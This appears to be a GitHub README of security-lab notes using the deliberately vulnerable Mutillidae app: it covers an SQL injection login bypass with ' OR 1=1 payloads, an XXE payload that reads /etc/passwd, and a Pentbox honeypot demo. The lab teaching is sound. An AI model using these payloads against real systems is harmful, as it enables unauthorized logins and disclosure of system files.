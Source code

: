 
**Markdown:**

```markdown
# Heading 1  
## Heading 2  
### Heading 3
```


### task1: make sure xammp is running
```
sudo /opt/lampp/lampp start  --> 
sudo systemctl stop apache2
```
http://127.0.0.1/mutillidae/src/index.php

http://208.8.8.133/mutillidae/src/index.php

if you want mutillidae to be accessed via web:
sudo nano /opt/lampp/htdocs/mutillidae/.htaccess
```
Order Deny,Allow
Deny from all
Allow from 127.0.0.1
Allow from ::1
Allow from 192.168.0.0/16
Allow from 10.0.0.0/8
Allow from 172.16.0.0/12
Order Allow,Deny
Allow from all
```

sudo rm /opt/lampp/htdocs/mutillidae/.htaccess
sudo /opt/lampp/lampp restart

### task2: open the web: SQL INJECTION:
```

SQL Injection is a web security vulnerability that allows an attacker to interfere with the queries an application makes to its database.
By injecting malicious SQL code into input fields (like login forms or search boxes), attackers can:
Bypass authentication
View, modify, or delete data
Execute administrative operations
Extract sensitive information

```
![image](https://github.com/user-attachments/assets/b565d468-aa2d-4c6d-99b0-d78910e672fb)

create a user name: anne curtis with password C1sc0123

![image](https://github.com/user-attachments/assets/ac571ec9-1f25-4b07-954e-b5b8ce838b7f)

If a website runs this code:

```
SELECT * FROM users WHERE username = 'input' AND password = 'input';

```
An attacker could input:
```
' OR 1=1 -- -
' OR 1=1 -- -

' OR '1'='1
' OR '1'='1

```
![image](https://github.com/user-attachments/assets/829dc8d0-98c4-43cc-af92-634b35148679)

and type: ' OR 1=1 -- - or both user and password:

![image](https://github.com/user-attachments/assets/271fc5d4-0532-4362-bda0-ab200f342fc9)

### we get this:

![image](https://github.com/user-attachments/assets/8eef2ed0-ecff-4391-8b9f-39e1bf2dee29)

## TASK2:A4: XML External Entities (XXE)

Go to: OWASP 2017 → A4 - XML External Entities

![image](https://github.com/user-attachments/assets/0b7fcd66-3965-4403-9a9a-6642d8ef6f15)

Paste this payload:
```

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>

```
![image](https://github.com/user-attachments/assets/a1bfdd93-cfd8-4390-a101-8f1c7d8237e4)

You get contents of a password file:

![image](https://github.com/user-attachments/assets/61e65d11-0f36-4161-9a7f-a25849f302ba)

## TASK2:A4: Honey Pot demo:

```

cd /home/kali/pentbox-1.8
 ./pentbox.rb

```

![image](https://github.com/user-attachments/assets/6ad8f047-1b6f-46bc-a8e3-a7af507e5829)

we shall make a fake smtp port 25 to have hackers to connect to it: first nmap your kali linux:

![image](https://github.com/user-attachments/assets/7f4824f4-a5d5-4728-84d6-b10b6cb8cccb)

now type: 2  then 3  then 2  then 25  then "this is mail server" then n  then n

![image](https://github.com/user-attachments/assets/c36dbc69-1842-4b2c-ac86-249c38783912)

Now nmap from windows and see if port 25 is open and try to telnet 25:

![image](https://github.com/user-attachments/assets/1db8343e-3b23-49ea-9fae-052f289f6efd)

Now check the kali console:

![image](https://github.com/user-attachments/assets/200a0236-a313-418b-9ddb-8b7d24cc5323)

Now do this for port 23:


## TASK2:A4: XML External Entities (XXE)
